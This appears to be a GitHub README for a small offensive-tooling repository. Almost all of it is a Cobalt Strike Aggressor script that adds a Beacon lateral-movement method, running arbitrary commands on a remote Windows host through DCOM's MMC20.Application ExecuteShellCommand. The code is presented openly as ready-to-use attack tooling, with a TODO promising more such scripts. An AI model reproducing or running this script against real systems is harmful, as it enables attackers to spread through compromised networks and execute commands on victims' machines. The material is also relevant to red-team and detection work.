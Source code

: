 # Remote-Exec

TODO: Provide more aggressor scripts for remote-exec lateral movement

## DCOM

`$ cat dcom-remote-exec.cna`

---

```perl
sub mmc20_exec_method {
   local('$script $command $args');

   # state what we're doing.
   btask($1, "Tasked Beacon to run $3 on $2 via DCOM", "T1175");

   # separate our command and arguments
   if ($3 ismatch '(.*?) (.*)') {
      ($command, $args) = matched();
   }
   else {
      $command = $3;
      $args    = "";
   }
    
   # build script that uses DCOM to invoke ExecuteShellCommand on MMC20.Application object
   $script  = '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "';
   $script .= $2;
   $script .=  '")).Document.ActiveView.ExecuteShellCommand("';
   $script .= $command;
   $script .= '", $null, "';   
   $script .= $args;
   $script .= '", "7");';

   # run the script we built up
   bpowershell!($1, $script, "");
}

beacon_remote_exec_method_register("com-mmc20", "Execute command via MMC20.Application COM Object", &mmc20_exec_method);
```

---
## References

- [Aggressor Script: Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as_beacon.htm)